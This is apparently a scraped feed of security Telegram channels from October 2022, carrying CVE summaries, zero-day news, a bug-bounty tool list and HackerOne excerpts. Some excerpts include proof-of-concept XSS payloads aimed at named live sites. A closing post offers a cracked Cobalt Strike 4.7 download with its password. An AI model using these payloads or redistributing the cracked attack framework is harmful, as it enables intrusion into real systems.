&#35;cve
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/file/c62714babbc53ab051f0d.jpg">
https://telegra.ph/file/c62714babbc53ab051f0d.jpg
</a>
</td></tr></table>

---

# cibsecurity
`2022-10-12`

* https://www.itpro.co.uk/security/zero-day-exploit/369263/third-microsoft-exchange-sever-zero-day-exploit-fix-bypassed

<blockquote>
📢 Microsoft's third mitigation update for Exchange Server zero-day exploit bypassed within hours 📢

The string of problematic temporary fixes for ‘ProxyNotShell’ grows longer after a 'confusing' and 'atypical' week-long vulnerability disclosure process

📖 Read

via &quot;ITPro&quot;.
</blockquote>

<table><tr><td><b>→</b><a href="https://www.itpro.co.uk/security/zero-day-exploit/369263/third-microsoft-exchange-sever-zero-day-exploit-fix-bypassed">
https://www.itpro.co.uk/security/zero-day-exploit/369263/third-microsoft-exchange-sever-zero-day-exploit-fix-bypassed
</a>
<blockquote>
The string of problematic temporary fixes for ‘ProxyNotShell’ grows longer after a 'confusing' and 'atypical' week-long vulnerability disclosure process
</blockquote>
</td></tr></table>

---

# cibsecurity
`2022-10-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-39800

<blockquote>
‼ CVE-2022-39800 ‼

SAP BusinessObjects BI LaunchPad - versions 420, 430, is susceptible to script execution attack by an unauthenticated attacker due to improper sanitization of the user inputs while interacting on the network. On successful exploitation, an attacker can view or modify information causing a limited impact on confidentiality and integrity of the application.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-11`

* https://krebsonsecurity.com/2022/10/microsoft-patch-tuesday-october-2022-edition/

<blockquote>
♟️ Microsoft Patch Tuesday, October 2022 Edition ♟️

Microsoft today released updates to fix at least 85 security holes in its Windows operating systems and related software, including a new zero-day vulnerability in all supported versions of Windows that is being actively exploited. However, noticeably absent from this month's Patch Tuesday are any updates to address a pair of zero-day flaws being exploited this past month in Microsoft Exchange Server.

📖 Read

via &quot;Krebs on Security&quot;.
</blockquote>

<table><tr><td><b>→</b><a href="https://krebsonsecurity.com/2022/10/microsoft-patch-tuesday-october-2022-edition/?utm_source=dlvr.it&utm_medium=twitter">
https://krebsonsecurity.com/2022/10/microsoft-patch-tuesday-october-2022-edition/?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Microsoft today released updates to fix at least 85 security holes in its Windows operating systems and related software, including a new zero-day vulnerability in all supported versions of Windows that is being actively exploited. However, noticeably absent from this…
</blockquote>
</td></tr></table>

---

# cibsecurity
`2022-10-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-34689

<blockquote>
‼ CVE-2022-34689 ‼

Windows CryptoAPI Spoofing Vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-22035

<blockquote>
‼ CVE-2022-22035 ‼

Windows Point-to-Point Tunneling Protocol Remote Code Execution Vulnerability. This CVE ID is unique from CVE-2022-24504, CVE-2022-30198, CVE-2022-33634, CVE-2022-38000, CVE-2022-38047, CVE-2022-41081.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-38047

<blockquote>
‼ CVE-2022-38047 ‼

Windows Point-to-Point Tunneling Protocol Remote Code Execution Vulnerability. This CVE ID is unique from CVE-2022-22035, CVE-2022-24504, CVE-2022-30198, CVE-2022-33634, CVE-2022-38000, CVE-2022-41081.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-38049

<blockquote>
‼ CVE-2022-38049 ‼

Microsoft Office Graphics Remote Code Execution Vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-38048

<blockquote>
‼ CVE-2022-38048 ‼

Microsoft Office Remote Code Execution Vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-38053

<blockquote>
‼ CVE-2022-38053 ‼

Microsoft SharePoint Server Remote Code Execution Vulnerability. This CVE ID is unique from CVE-2022-41036, CVE-2022-41037, CVE-2022-41038.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-38040

<blockquote>
‼ CVE-2022-38040 ‼

Microsoft ODBC Driver Remote Code Execution Vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-41081

<blockquote>
‼ CVE-2022-41081 ‼

Windows Point-to-Point Tunneling Protocol Remote Code Execution Vulnerability. This CVE ID is unique from CVE-2022-22035, CVE-2022-24504, CVE-2022-30198, CVE-2022-33634, CVE-2022-38000, CVE-2022-38047.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-41034

<blockquote>
‼ CVE-2022-41034 ‼

Visual Studio Code Remote Code Execution Vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-41031

<blockquote>
‼ CVE-2022-41031 ‼

Microsoft Word Remote Code Execution Vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-40047

<blockquote>
‼ CVE-2022-40047 ‼

Flatpress v1.2.1 was discovered to contain a reflected cross-site scripting (XSS) vulnerability via the page parameter at /flatpress/admin.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-41035

<blockquote>
‼ CVE-2022-41035 ‼

Microsoft Edge (Chromium-based) Spoofing Vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-41038

<blockquote>
‼ CVE-2022-41038 ‼

Microsoft SharePoint Server Remote Code Execution Vulnerability. This CVE ID is unique from CVE-2022-38053, CVE-2022-41036, CVE-2022-41037.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-38044

<blockquote>
‼ CVE-2022-38044 ‼

Windows CD-ROM File System Driver Remote Code Execution Vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-41037

<blockquote>
‼ CVE-2022-41037 ‼

Microsoft SharePoint Server Remote Code Execution Vulnerability. This CVE ID is unique from CVE-2022-38053, CVE-2022-41036, CVE-2022-41038.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-34427

<blockquote>
‼ CVE-2022-34427 ‼

Dell Container Storage Modules 1.2 contains an OS Command Injection in goiscsi and gobrick libraries. A remote unauthenticated attacker could exploit this vulnerability leading to modification of intended OS command execution.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-34426

<blockquote>
‼ CVE-2022-34426 ‼

Dell Container Storage Modules 1.2 contains an Improper Limitation of a Pathname to a Restricted Directory in goiscsi and gobrick libraries which could lead to OS command injection. A remote unauthenticated attacker could exploit this vulnerability leading to unintentional access to path outside of restricted directory.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-41376

<blockquote>
‼ CVE-2022-41376 ‼

Metro UI v4.4.0 to v4.5.0 was discovered to contain a reflected cross-site scripting (XSS) vulnerability via the Javascript function.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-32492

<blockquote>
‼ CVE-2022-32492 ‼

Dell BIOS contains an improper input validation vulnerability. A local authenticated malicious user may potentially exploit this vulnerability by using an SMI to gain arbitrary code execution in SMRAM.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-33978

<blockquote>
‼ CVE-2022-33978 ‼

Reflected Cross-Site Scripting (XSS) vulnerability FontMeister plugin &lt;&#61; 1.08 at WordPress.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-32486

<blockquote>
‼ CVE-2022-32486 ‼

Dell BIOS contains an improper input validation vulnerability. A local authenticated malicious user may potentially exploit this vulnerability by using an SMI to gain arbitrary code execution in SMRAM.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-32174

<blockquote>
‼ CVE-2022-32174 ‼

In Gogs, versions v0.6.5 through v0.12.10 are vulnerable to Stored Cross-Site Scripting (XSS) that leads to an account takeover.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# Leakers_squad
`2022-10-11`

* https://t.me/leakers_Squad/1841

<blockquote>
🔰 Complete Bug Bounty tool List 🔰

Enjoy :)

dnscan https://github.com/rbsec/dnscan

Knockpy https://github.com/guelfoweb/knock

Sublist3r https://github.com/aboul3la/Sublist3r

massdns https://github.com/blechschmidt/massdns

nmap https://nmap.org

masscan https://github.com/robertdavidgraham/masscan

EyeWitness https://github.com/ChrisTruncer/EyeWitness

DirBuster https://sourceforge.net/projects/dirbuster/

dirsearch https://github.com/maurosoria/dirsearch

Gitrob https://github.com/michenriksen/gitrob

git-secrets https://github.com/awslabs/git-secrets

sandcastle https://github.com/yasinS/sandcastle

bucket_finder https://digi.ninja/projects/bucket_finder.php

GoogD0rker https://github.com/ZephrFish/GoogD0rker/

Wayback Machine https://web.archive.org

waybackurls https://gist.github.com/mhmdiaa/adf6bff70142e5091792841d4b372050 

Sn1per https://github.com/1N3/Sn1per/

XRay https://github.com/evilsocket/xray

wfuzz https://github.com/xmendez/wfuzz/

patator https://github.com/lanjelot/patator

datasploit https://github.com/DataSploit/datasploit

hydra https://github.com/vanhauser-thc/thc-hydra

changeme https://github.com/ztgrace/changeme

MobSF https://github.com/MobSF/Mobile-Security-Framework-MobSF/ 

Apktool https://github.com/iBotPeaches/Apktool

dex2jar https://sourceforge.net/projects/dex2jar/

sqlmap http://sqlmap.org/

oxml_xxe https://github.com/BuffaloWill/oxml_xxe/

XXE Injector https://github.com/enjoiz/XXEinjector

The JSON Web Token Toolkit https://github.com/ticarpi/jwt_tool

ground-control https://github.com/jobertabma/ground-control

ssrfDetector https://github.com/JacobReynolds/ssrfDetector

LFISuit https://github.com/D35m0nd142/LFISuite

GitTools https://github.com/internetwache/GitTools

dvcs-ripper https://github.com/kost/dvcs-ripper

tko-subs https://github.com/anshumanbh/tko-subs

HostileSubBruteforcer https://github.com/nahamsec/HostileSubBruteforcer

Race the Web https://github.com/insp3ctre/race-the-web

ysoserial https://github.com/GoSecure/ysoserial

PHPGGC https://github.com/ambionics/phpggc

CORStest https://github.com/RUB-NDS/CORStest

Retire-js https://github.com/RetireJS/retire.js

getsploit https://github.com/vulnersCom/getsploit

Findsploit https://github.com/1N3/Findsploit

bfac https://github.com/mazen160/bfac

WPScan https://wpscan.org/

CMSMap https://github.com/Dionach/CMSmap

Amass https://github.com/OWASP/Amass

Extra Tools
http://projectdiscovery.io

If you want to report any copyright violation, please write to us at  @Leakers_squad_bot and we will ensure to remove that post within 48 hours
Read this
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/rbsec/dnscan">
https://github.com/rbsec/dnscan
</a>
<blockquote>
Contribute to rbsec/dnscan development by creating an account on GitHub.
</blockquote>
</td></tr></table>

---

# cibsecurity
`2022-10-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-40180

<blockquote>
‼ CVE-2022-40180 ‼

A vulnerability has been identified in Desigo PXM30-1 (All versions &lt; V02.20.126.11-41), Desigo PXM30.E (All versions &lt; V02.20.126.11-41), Desigo PXM40-1 (All versions &lt; V02.20.126.11-41), Desigo PXM40.E (All versions &lt; V02.20.126.11-41), Desigo PXM50-1 (All versions &lt; V02.20.126.11-41), Desigo PXM50.E (All versions &lt; V02.20.126.11-41), PXG3.W100-1 (All versions &lt; V02.20.126.11-37), PXG3.W100-2 (All versions &lt; V02.20.126.11-41), PXG3.W200-1 (All versions &lt; V02.20.126.11-37), PXG3.W200-2 (All versions &lt; V02.20.126.11-41). A Cross-Site Request Forgery exists in the “Import Files“ functionality of the “Operation� web application due to the missing validation of anti-CSRF tokens or other origin checks. A remote unauthenticated attacker can upload and enable permanent arbitrary JavaScript code into the device just by convincing a victim to visit a specifically crafted webpage while logged-in to the device web application.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-40179

<blockquote>
‼ CVE-2022-40179 ‼

A vulnerability has been identified in Desigo PXM30-1 (All versions &lt; V02.20.126.11-41), Desigo PXM30.E (All versions &lt; V02.20.126.11-41), Desigo PXM40-1 (All versions &lt; V02.20.126.11-41), Desigo PXM40.E (All versions &lt; V02.20.126.11-41), Desigo PXM50-1 (All versions &lt; V02.20.126.11-41), Desigo PXM50.E (All versions &lt; V02.20.126.11-41), PXG3.W100-1 (All versions &lt; V02.20.126.11-37), PXG3.W100-2 (All versions &lt; V02.20.126.11-41), PXG3.W200-1 (All versions &lt; V02.20.126.11-37), PXG3.W200-2 (All versions &lt; V02.20.126.11-41). A Cross-Site Request Forgery exists in endpoints of the “Operation� web application that interpret and execute Axon language queries, due to the missing validation of anti-CSRF tokens or other origin checks. By convincing a victim to click on a malicious link or visit a specifically crafted webpage while logged-in to the device web application, a remote unauthenticated attacker can execute arbitrary Axon queries against the device.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2022-10-11`

<blockquote>
TikTok: Stored XSS in the ticketing system
https://vulners.com/hackerone/H1:1694037?utm_source&#61;rss&amp;utm_medium&#61;rss&amp;utm_campaign&#61;rss
</blockquote>

<table><tr><td><b>→</b><a href="https://vulners.com/hackerone/H1:1694037?utm_source=rss&utm_medium=rss&utm_campaign=rss">
https://vulners.com/hackerone/H1:1694037?utm_source=rss&utm_medium=rss&utm_campaign=rss
</a>
<blockquote>
A Stored Cross-Site Scripting (XSS) vulnerability was found on a TikTok Seller endpoint, which could have resulted in a JavaScript payload injected into the endpoint causing it to be executed within the context of the victim's browser. We thank @codeslayer137 for reporting this to our...
</blockquote>
</td></tr></table>

---

# cibsecurity
`2022-10-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-3209

<blockquote>
‼ CVE-2022-3209 ‼

The soledad WordPress theme before 8.2.5 does not sanitise the {id,datafilter[type],...} parameters in its penci_more_slist_post_ajax AJAX action, leading to a Reflected Cross-Site Scripting (XSS) vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# hackgit
`2022-10-10`

* https://telegra.ph/file/282df75919cfe1f81c2df.jpg
* https://github.com/kljunowsky/CVE-2022-41040-POC

<blockquote>
​​CVE-2022-41040-POC

Server Side Request Forgery (SSRF) in Microsoft Exchange Server

https://github.com/kljunowsky/CVE-2022-41040-POC

&#35;cve
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/file/282df75919cfe1f81c2df.jpg">
https://telegra.ph/file/282df75919cfe1f81c2df.jpg
</a>
</td></tr></table>

---

# defcon_news
`2022-10-10`

<blockquote>
Yelp: Server-side request forgery  (ssrf)
https://vulners.com/hackerone/H1:1712240?utm_source&#61;rss&amp;utm_medium&#61;rss&amp;utm_campaign&#61;rss
</blockquote>

<table><tr><td><b>→</b><a href="https://vulners.com/hackerone/H1:1712240?utm_source=rss&utm_medium=rss&utm_campaign=rss">
https://vulners.com/hackerone/H1:1712240?utm_source=rss&utm_medium=rss&utm_campaign=rss
</a>
<blockquote>
*.yelp-support.com Summary: Server-side request forgery   Platform(s) Affected: www.yelp-support.com Steps To Reproduce:   If you visit this site, attackers could try to steal information like your passwords, emails, or credit card details.   your  server has redirect to malicious website     i am Referer: https://evil.com/    and  your don't  check  server properly the write website    Steps 1 .  i am open  assetfinder  to subdomain enumeration on this domain : yelp-support.com   i am open in this subdomain in Burp suite :  www.yelp-support.com   my Browser Request:    GET /static/111213/js/perf/stub.js HTTP/1.1 Host: www.yelp-support.com Cookie: CookieConsentPolicy&#61;0:1; LSKey-c$CookieConsentPolicy&#61;0:1 Sec-Ch-Ua: &quot;Chromium&quot;;v&#61;&quot;105&quot;, &quot;Not)A;Brand&quot;;v&#61;&quot;8&quot; Sec-Ch-Ua-Mobile: ?0 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36 Sec-Ch-Ua-Platform: &quot;Linux&quot; Accept: / Sec-Fetch-Site: same-origin Sec-Fetch-Mode: no-cors Sec-Fetch-Dest: script…
</blockquote>
</td></tr></table>

---

# defcon_news
`2022-10-10`

<blockquote>
Glassdoor: XSS in www.glassdoor.com
https://vulners.com/hackerone/H1:1695989?utm_source&#61;rss&amp;utm_medium&#61;rss&amp;utm_campaign&#61;rss
</blockquote>

<table><tr><td><b>→</b><a href="https://vulners.com/hackerone/H1:1695989?utm_source=rss&utm_medium=rss&utm_campaign=rss">
https://vulners.com/hackerone/H1:1695989?utm_source=rss&utm_medium=rss&utm_campaign=rss
</a>
<blockquote>
Summary: Browser: Chrome Affected URL https://www.glassdoor.com/Location/All-Tesla-Office-Locations-E43129.htm?DIFFICULT&#61;%3E%3Csvg%20onload%3d%26%23x00000000061;%26%23x0000000006c%26%23x0000000065%26%23x0000000072%26%23x00000000074(1%26%230000000000000041;%20%3C%2fscript%20 Steps To Reproduce:  Go to the affected URL  Supporting Material/References: Attached an image  ███ Impact Leaking users data and and modify the...
</blockquote>
</td></tr></table>

---

# defcon_news
`2022-10-10`

<blockquote>
Hyperledger: Relative Path Traversal vulnerability in fabric-private-chaincode
https://vulners.com/hackerone/H1:1690377?utm_source&#61;rss&amp;utm_medium&#61;rss&amp;utm_campaign&#61;rss
</blockquote>

<table><tr><td><b>→</b><a href="https://vulners.com/hackerone/H1:1690377?utm_source=rss&utm_medium=rss&utm_campaign=rss">
https://vulners.com/hackerone/H1:1690377?utm_source=rss&utm_medium=rss&utm_campaign=rss
</a>
<blockquote>
Unsanitized input from os.Args[3] : 75 CLI argument flows into os.OpenFile, where it is used as a path. This may result in a Path Traversal vulnerability and allow an attacker to open arbitrary files. The following steps of code lines with respective code confirm the issue:  utils/fabric/peer-cli-assist.src/peer-cli-assist.go  Data flow - 5 steps in 1 file  Step (1,2) - Line 75:49 - os.Args[3], os.Args[3] (SOURCE) 1 - 2 [Data is 'tainted' if it comes from an insecure source such as a file, the network, or the user.] Step (3) - Line 85:71 - `resultPipeName  Step (4,5) - Line 87:37 - resultPipeNameos.OpenFile(resultPipeName, os.O_APPEND|os.O_WRONLY, 0644)                             Line :37 - resultPipeName                              Line :25 - os.OpenFile(resultPipeName, os.O_APPEND|os.O_WRONLY, 0644)[the operations that must receive clean data and that you wouldn't want an attacker to be able to manipulate]  References : https://cwe.mitre.org/data/definitions/23.html Example fixes :  Link 1 Link 2 Link 3 Impact…
</blockquote>
</td></tr></table>

---

# defcon_news
`2022-10-10`

<blockquote>
U.S. Dept Of Defense: XSS DUE TO CVE-2022-38463 in https://████████
https://vulners.com/hackerone/H1:1681208?utm_source&#61;rss&amp;utm_medium&#61;rss&amp;utm_campaign&#61;rss
</blockquote>

<table><tr><td><b>→</b><a href="https://vulners.com/hackerone/H1:1681208?utm_source=rss&utm_medium=rss&utm_campaign=rss">
https://vulners.com/hackerone/H1:1681208?utm_source=rss&utm_medium=rss&utm_campaign=rss
</a>
<blockquote>
Description: During my research, I found one of the host running ServiceNow vulnerable to CVE-2022-38463 . ServiceNow through San Diego Patch 4b and Patch 6 allows reflected XSS in the logout functionality. Impact Attacker is able to steal victims cookies, redirect victim to attacker controlled domain, and perform various malicious activities. System Host(s)  ███ Affected Product(s) and Version(s) CVE Numbers Steps to Reproduce 1.Enter the following crafted URL in any web-browser. https:// █████████/logout_redirect.do?sysparm_url&#61;//j%5c%5cjavascript%3aalert(document.domain)  XSS will be triggered.  Suggested Mitigation/Remediation...
</blockquote>
</td></tr></table>

---

# defcon_news
`2022-10-10`

<blockquote>
Internet Bug Bounty: CVE-2022-38362: Apache Airflow Docker Provider &lt;3.0 RCE vulnerability in example dag
https://vulners.com/hackerone/H1:1671140?utm_source&#61;rss&amp;utm_medium&#61;rss&amp;utm_campaign&#61;rss
</blockquote>

<table><tr><td><b>→</b><a href="https://vulners.com/hackerone/H1:1671140">
https://vulners.com/hackerone/H1:1671140
</a>
<blockquote>
Apache Airflow Docker's Provider shipped with an example DAG that was vulnerable to (authenticated) remote code exploit of code on the Airflow worker host. Vulnerability summary: In DAG script of airflow 2.3.3, there is a command injection vulnerability (RCE) in the script (example_docker_copy_data.py of docker provider), which can obtain the permission of the operating system.  source path:  airflow-2.3.3/airflow/providers/docker/example_dags/example_docker_copy_data.py Vulnerability details： (1) Vulnerability principle： 1. It can be seen from the source code of  example_docker_copy_data.py script that there is the function of executing bash command, The parameter ‘source_location’ in the template expression {{params.source_location}} is externally controllable and rendered through the jiaja2 template:  {F1869746}  Further analysis “from airflow.operators.bash import BashOperator” code, we can see bash_command parameter value will be executed as a bash script;  {F1869748} (2)Vulnerability exploit： 1. Enter the…
</blockquote>
</td></tr></table>

---

# defcon_news
`2022-10-10`

<blockquote>
Internet Bug Bounty: [CVE-2022-35949]: undici.request vulnerable to SSRF using absolute / protocol-relative URL on pathname
https://vulners.com/hackerone/H1:1663788?utm_source&#61;rss&amp;utm_medium&#61;rss&amp;utm_campaign&#61;rss
</blockquote>

<table><tr><td><b>→</b><a href="https://vulners.com/hackerone/H1:1663788">
https://vulners.com/hackerone/H1:1663788
</a>
<blockquote>
GHSA: https://github.com/nodejs/undici/security/advisories/GHSA-8qr4-xgw6-wmr3 Report: https://hackerone.com/reports/1642017 Impact...
</blockquote>
</td></tr></table>

---

# defcon_news
`2022-10-10`

<blockquote>
Showmax: Reflected XSS at https://stories.showmax.com/wp-content/themes/theme-internal_ss/blocks/ajax/a.php via `ss_country_filter` param
https://vulners.com/hackerone/H1:1663202?utm_source&#61;rss&amp;utm_medium&#61;rss&amp;utm_campaign&#61;rss
</blockquote>

<table><tr><td><b>→</b><a href="https://stories.showmax.com/wp-content/themes/theme-internal_ss/blocks/ajax/a.php">
https://stories.showmax.com/wp-content/themes/theme-internal_ss/blocks/ajax/a.php
</a>
<blockquote>
Find out what's new on Showmax, get series and movie recommendations and learn more about how to sign up and use Showmax.
</blockquote>
</td></tr></table>

---

# defcon_news
`2022-10-10`

<blockquote>
Internet Bug Bounty: CVE-2022-21831: Possible code injection vulnerability in Rails / Active Storage
https://vulners.com/hackerone/H1:1652042?utm_source&#61;rss&amp;utm_medium&#61;rss&amp;utm_campaign&#61;rss
</blockquote>

<table><tr><td><b>→</b><a href="https://vulners.com/hackerone/H1:1652042">
https://vulners.com/hackerone/H1:1652042
</a>
<blockquote>
Original report: https://hackerone.com/reports/1154034 Rails advisory: https://discuss.rubyonrails.org/t/cve-2022-21831-possible-code-injection-vulnerability-in-rails-active-storage/80199 Blogpost: https://blog.convisoappsec.com/en/cve-2022-21831-overview-of-the-security-issues-we-found-in-railss-image-processing-api/ If the report is eligible for a bounty, please split it equally between me and @rsilva, if possible. Impact Vulnerable code patterns could allow the attacker to achieve...
</blockquote>
</td></tr></table>

---

# defcon_news
`2022-10-10`

<blockquote>
MTN Group: Reflected xss on videostore.mtnonline.com
https://vulners.com/hackerone/H1:1646248?utm_source&#61;rss&amp;utm_medium&#61;rss&amp;utm_campaign&#61;rss
</blockquote>

<table><tr><td><b>→</b><a href="https://vulners.com/hackerone/H1:1646248">
https://vulners.com/hackerone/H1:1646248
</a>
<blockquote>
Summary: Hi, I found reflected xss vuln on videostore.mtnonline.com Steps To Reproduce:  Open browser Go to https://videostore.mtnonline.com/GL/Default.aspx?PId&#61;126&amp;CId&#61;5&amp;OprId&#61;11&amp;Ctg&#61;OF25MTNNGVS_LapsInTime%22%27testxxx%3E%3Ciframe%20src&#61;%22data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E%22%3E%3C/iframe%3E url Browser show alert popup  Impact We can run javascript...
</blockquote>
</td></tr></table>

---

# defcon_news
`2022-10-10`

<blockquote>
Online Shopping System Advanced 1.0 SQL Injection
http://exploit.kitploit.com/2022/10/online-shopping-system-advanced-10-sql.html
</blockquote>

<table><tr><td><b>→</b><a href="https://exploit.kitploit.com/2022/10/online-shopping-system-advanced-10-sql.html">
https://exploit.kitploit.com/2022/10/online-shopping-system-advanced-10-sql.html
</a>
<blockquote>
Exploit Collector is the ultimate collection of public exploits and exploitable vulnerabilities. Remote/Local Exploits, Shellcode and 0days.
</blockquote>
</td></tr></table>

---

# defcon_news
`2022-10-10`

<blockquote>
Online Shopping System Advanced 1.0 SQL Injection
https://packetstormsecurity.com/files/168671/ossa10-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/168671/ossa10-sql.txt">
https://packetstormsecurity.com/files/168671/ossa10-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# hackgit
`2022-10-10`

* https://telegra.ph/file/3cf2cfc1c52c11f32f58e.jpg
* https://github.com/tijme/cmstplua-uac-bypass

<blockquote>
​​cmstplua-uac-bypass

This is a Cobalt Strike (CS) Beacon Object File (BOF) which exploits the CMSTPLUA COM interface. It masquerade the PEB of the current process to a Windows process, and then utilises COM Elevation Moniker on the CMSTPLUA COM object in order to execute commands in an elevated context.

https://github.com/tijme/cmstplua-uac-bypass
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/file/3cf2cfc1c52c11f32f58e.jpg">
https://telegra.ph/file/3cf2cfc1c52c11f32f58e.jpg
</a>
</td></tr></table>

---

# cibsecurity
`2022-10-10`

* https://portswigger.net/daily-swig/zimbra-remote-code-execution-vulnerability-actively-exploited-in-the-wild

<blockquote>
🗓️ Zimbra remote code execution vulnerability actively exploited in the wild 🗓️

Mitigation guidance provided while a patch is being developed

📖 Read

via &quot;The Daily Swig&quot;.
</blockquote>

<table><tr><td><b>→</b><a href="https://portswigger.net/daily-swig/zimbra-remote-code-execution-vulnerability-actively-exploited-in-the-wild">
https://portswigger.net/daily-swig/zimbra-remote-code-execution-vulnerability-actively-exploited-in-the-wild
</a>
<blockquote>
Mitigation guidance provided while a patch is being developed
</blockquote>
</td></tr></table>

---

# defcon_news
`2022-10-10`

<blockquote>
Critical Zero-Day Vulnerability Found In Zimbra Collaboration Suite
https://latesthackingnews.com/2022/10/10/critical-zero-day-vulnerability-found-in-zimbra-collaboration-suite/
</blockquote>

<table><tr><td><b>→</b><a href="https://latesthackingnews.com/2022/10/10/critical-zero-day-vulnerability-found-in-zimbra-collaboration-suite/">
https://latesthackingnews.com/2022/10/10/critical-zero-day-vulnerability-found-in-zimbra-collaboration-suite/
</a>
<blockquote>
A severe zero day vulnerability has been discovered in the Zimbra Collaboration Suite (ZCS) that has been under active exploit prior to a patch being released. Zimbra Collaboration Suite Zero-Day Vulnerability Reportedly, an unpatched remote code execution
</blockquote>
</td></tr></table>

---

# defcon_news
`2022-10-09`

<blockquote>
Автоматизация Boolean based Blind SQL Injection на Node.js
https://codeby.net/threads/avtomatizacija-boolean-based-blind-sql-injection-na-node-js.80656/
</blockquote>

<table><tr><td><b>→</b><a href="https://codeby.net/threads/avtomatizacija-boolean-based-blind-sql-injection-na-node-js.80656/">
https://codeby.net/threads/avtomatizacija-boolean-based-blind-sql-injection-na-node-js.80656/
</a>
<blockquote>
Введение

Boolean based Blind SQL Injection - это техника инъекции, которая заставляет приложение возвращать различное содержимое в зависимости от логического результата (TRUE или FALSE) при...
</blockquote>
</td></tr></table>

---

# freedomf0x
`2022-10-08`

<blockquote>
&#35;CobaltStrike 4.7 by uCare (custom license)
Download:  https://mega.nz/file/nxkglKyT&#35;NtabGLxmW_s17mGYK_CPOv7foVxAcPRMCdkMtAMMb-I
Pass: uCare@Pwn3rzs

Since all the fuss around me (h0nus) selling it, all kind of shit and misinformation spread around, we are releasing it for free.
This is the XSS vulnerable one, so patch it your own way or use a Reverse Proxy or whatever.
</blockquote>

---

# cibsecurity
`2022-10-08`

